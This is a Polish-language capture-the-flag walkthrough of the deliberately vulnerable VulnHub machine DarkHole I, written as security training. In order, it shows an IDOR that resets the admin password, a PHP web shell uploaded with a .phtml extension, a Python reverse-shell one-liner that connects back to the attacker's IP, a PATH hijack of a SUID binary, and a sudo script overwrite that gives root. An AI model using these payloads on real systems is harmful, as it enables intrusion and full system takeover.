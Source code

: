 **CTF - Darkhole I**

`Autor: adi7312`

**Poziom trudności**: Łatwy/Średni


**Link do maszyny**: [Darkhole I](https://www.vulnhub.com/entry/darkhole-1,724/).


**Spis treści:**

- [**CTF-Darkhole**](#ctf-darkhole)
    - [**Specyfikacja układu**:](#specyfikacja-układu)
    - [**Skanowanie sieci**](#skanowanie-sieci)
    - [**Skanowanie portów**](#skanowanie-portów)
    - [**Identyfikacja podatności**](#identyfikacja-podatności)
    - [**PHP Shell**](#php-shell)
    - [**Eskalacja uprawnień - zdobycie flagi użytkownika**](#eskalacja-uprawnień---zdobycie-flagi-użytkownika)
    - [**Eskalacja uprawnień - zdobycie flagi roota**](#eskalacja-uprawnień---zdobycie-flagi-roota)

### **Specyfikacja układu**:
* Maszyna atakująca: Kali Linux
* Podatna na ataki maszyna: DarkHole
* Obie maszyny znajdują się w jeden sieci

### **Skanowanie sieci**
**Cel**: Zdobycie adresu IP maszyny DarkHole

Żeby poznać adres IP naszej sieci musimy na poczatku skorzystać z polecenia 

    ifconfig


![](pictures/ifconfig.png)


Widzimy że nasza sieć ma maskę 255.255.255.0 (/24) zatem adresem naszej sieci jest 192.168.138.0/24. Wykorzystamy teraz tę informację aby znaleźć adres IP DarkHole przy pomocy narzędzia *netdiscover*. Wpisujemy zatem polecenie

    sudo netdiscover -r 192.168.138.0/24


![](pictures/net.png)


Zdobyliśmy adres IP DarkHole jest to **192.168.138.137**


### **Skanowanie portów**
**Cel:** Dowiedzieć się na jakich portach działa host **DarkHole**, dokonać wykrycia usług tych hostów oraz zidentyfikować system operacyjny.

Rozpoczynamy skanowania portów DarkHole'a w tym celu korzystamy z narzędzia *nmap* z przełącznikami:
* **-sV** - w celu identyfikacji wersji usług hosta
* **-O** - w celu identyfikacji systemu operacyjnego

  
Wpisujemy polcenie:

    sudo nmap  192.168.138.137 -sV -O


![](pictures/nmap.png)


Widzimy że 2 porty są otwarte: *ssh* na porcie 22 oraz *http* na porcie 80. 

### **Identyfikacja podatności**


**Cel**: Identyfikacja podatności


Nastepnie robimy skanowanie podatności, korzystamy z narzędzia *OpenVas*. OpenVas wykrył podatność związaną z portem 80 (*http*), tą podatnością będziemy się więc zajmować. Już sam *OpenVas* mówi nam że ta podatność jest związana z tym że hasła które podajemy są nieodpowiednio zabezpieczone i mogą być widoczne dla strony trzeciej.


![](pictures/gvm.png)


Przeanalizujemy teraz zawartość strony. Używamy narzędzia *Burp Suite*. Po wejściu na adres 192.168.138.137 widzimy że mamy możliwość zalogowania się. Po wejściu w sekcję logowania odkrywamy również możliwość rejestracji, więc rejestrujemy się i obserwujemy wyniki w *Burp Suite*. Dla przykładu jako login dałem *test* i hasło również *test*. Na poniższym screenie wydać że Burp przechwycił nasz input.


![](pictures/burp1.png)


Po zalogowaniu możemy zauważyć że istnieje możliwość zmiany hasła, przebadajmy więc i tę funkcję, zmieniamy hasło na *xyz*. W Burpie znów otrzymujemy HTTP request z jawnym inputem, tym razem widzimy dodatkowy parametr *id* = 2, możemy domyślać się że *id* = 1 posiada administrator. Ponownie wykonujemy tę operację tym razem w zakładce *Intercept* aby móc zmodyfikować HTTP request. Zmieniamy tam *id* z 2 na 1, dzięki temu zmodyfikujemy hasło administratora. 


![](pictures/burp3.png)


Możemy teraz wylogować się z konta testowego, i zalogować się na koncie administratora. Jako login wpisujemy *admin* jako hasło *xyz*. Logowanie zakończyło się powodzeniem, widzimy że administrator ma dodatkową opcję "*upload*".


![](pictures/burp4.png)


Zatem będziemy teraz zajmować się utworzeniem ładunku (*payload*) który umożliwi nam utworzenie tzw. *reverse shell*.
### **PHP Shell** 
**Cel**: RCE

Kod odpowiadający za utworzenie *reverse shell'a* wygląda następująco:

    <?php system($_GET['cmd']);?>
Zapisujemy to jako *rev.php*, spróbujmy wrzucić nasz kod. Operacja kończy się niepowodzeniem gdyż DarkHole nie przepuszcza plików .php, zmieńmy zatem w Burpie .php na .phtml.


![](pictures/burp5.png)


Sprawdzamy teraz czy nasz *shell* działa.


![](pictures/burp6.png)


Jak widać komenda *whoami* zadziałała poprawnie. Zatem zdalne wykonanie kodu (RCE - Remote Code Execution) jest teraz możliwe. Teraz będziemy chcieli uzyskać *shella* w naszym terminialu, w tym celu skorzystamy również z *reverse shell* ale tym razem użyjemy do tego Pythona. Na początku uruchamiamy terminal i wpisujemy w nim polecenie:

    sudo nc -lvp 80

Następnie wykonujemy RCE z poziomu naszej przeglądarki, jako argument *cmd* wpisujemy:

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.138.132",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

W terminalu gdzie wpisaliśmy komendę *sudo nc ...* wywołała nam się powłoka shell naszego DarkHole.


![](pictures/f1.png)



Ta powłoka ma dosyć ograniczone możliwości, próbujemy wywołać /bin/bash przy pomocy modułu *pty*.

    python3 -c ‘import pty;pty.spawn(“/bin/bash”)’


![](pictures/f2.png)


Po sprwadzeniu katalogu /home widzimy że mamy dwóch użytkowników *john* oraz *darkhole*. Sprawdzamy katalog *john* komendą `ls -la` możemy zauważyć że `toto` posiada bit SUID. Po wpisaniu polecenia `./toto` możemy zauważyć że to polecenie zachowuje się jak `id`. Wykorzystamy tę informację w celu eskalacji uprawnień. Oprócz tego widzimy już plik gdzie prawdopodobnie znajduje się flaga użytkownika, jednak nie mamy do niej dostępu bo nie mamy uprawnień `johna`.


![](pictures/f3.png)


### **Eskalacja uprawnień - zdobycie flagi użytkownika**


**Cel**: Eskalacja uprawnień oraz zdobycie pierwszej flagi 


Przechodzimy do folderu `/tmp` i tworzymy plik `id` jego zawartością będzie `/bin/bash`. Ustawiamy `id` jako plik wykonywalny, robimy to poleceniem:

    chmod +x id

Upewniamy się że zmiany zaszły dzięki poleceniu:

    which id

Ponownie uruchamiamy `./toto` wykonane zmiany powinny pozwolić eskalować uprawnienia.


![](pictures/f4.png)


Jak widzimy eskalacja udała się i uzyskaliśmy flagę, pozostało jedynie zdobyć flagę `roota`.

**`Pierwsza Flaga: DarkHole{You_Can_DO_It}`**


### **Eskalacja uprawnień - zdobycie flagi roota**

**Cel**: Eskalacja uprawnień do roota oraz zdobycie ostatniej flagi.

Przejrzyjmy ponownie katalog `/home/john`, widzimy że mamy tutaj plik *password* który zawiera hasło użytkownika *john*.


![](pictures/f5.png)


Dzięki temu możemy sprwadzić jakie polecenia `sudo` może wykonać John. Wpisujemy polecenie:

    sudo -l

Dowiadujemy się ciekawej rzeczy pewny skrypt Pythona może być uruchomiony jako *root*.


![](pictures/f6.png)


Postarajmy się zatem zdobyć tego *roota* zmieniając plik *file.py*. Wpisujemy polecenie:

    echo ‘import os;os.system(“/bin/bash”)’ > file.py
    sudo /usr/bin/python3 /home/john/file.py
    id
Jak widać otrzymaliśmy uprawnienia *roota*.


![](pictures/f8.png)


Przechodzimy zatem do folderu `/root`. Używamy `ls` otwieramy plik *root.txt*, poleceniem 

    cat root.txt

Otrzymujemy ostateczną flagę.


![](pictures/f9.png)


**`Ostatnia Flaga: DarkHole{You_Are_Legend}`**

